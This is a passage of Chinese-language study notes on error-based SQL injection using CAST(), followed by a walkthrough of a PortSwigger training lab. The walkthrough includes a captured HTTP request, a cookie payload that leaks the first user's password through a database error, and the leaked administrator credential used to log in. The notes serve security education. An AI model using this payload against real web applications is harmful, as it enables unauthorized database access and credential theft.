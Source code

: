```raw
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

這顯示了應用程式使用我們輸入所建構的完整查詢語句。我們可以看到在此情況下，我們正在向 `WHERE` 語句中的單引號字串進行注入。這使得構造包含惡意載荷的有效查詢變得更加容易。註解掉查詢的其餘部分可以防止多餘的單引號破壞語法。

有時候，您可能能夠誘導應用程式產生包含查詢回傳部分資料的錯誤訊息。這有效地將原本的盲注 SQL 注入漏洞轉變為可見的漏洞。

您可以使用 `CAST()` 函數來實現這一點。它能讓您將一種資料類型轉換為另一種。例如，想像一個包含以下語句的查詢：

```sql
CAST((SELECT example_column FROM example_table) AS int)`
```

通常，您試圖讀取的資料是字串。嘗試將其轉換為不相容的資料類型（如 `int`）可能會導致類似以下的錯誤：

```raw
ERROR: invalid input syntax for type integer: "Example data"
```

如果字元限制阻止您觸發條件回應，這種類型的查詢也可能很有用。

::: tip Lab: [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

1. 這是一個正常的請求，根據題意，Cookie 的 TrackingId 值存在 SQL Injection 漏洞
    ```http
    GET /filter?category=Lifestyle HTTP/2
    Host: 0aeb003104258035800962ea00e40016.web-security-academy.net
    Cookie: TrackingId=kSB5ROxwLmJAfNBr; session=KRrIXPibQL2ZYvaF8HZNwPudtJ3l8Jqi
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Accept-Language: en-US,en;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0aeb003104258035800962ea00e40016.web-security-academy.net/filter?category=Accessories
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i

    ```
2. 將 TrackingId 改成以下 Payload 即可透過錯誤訊息取得第一個使用者的密碼（通常是管理者帳號）
    ```http
    Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int) --;
    ```
3. 在回應的錯誤訊息中取得密碼：`0jbcieuccfdu9ozttjyk`
4. 嘗試登入 `administrator`/`0jbcieuccfdu9ozttjyk` 完成此 Lab。
:::
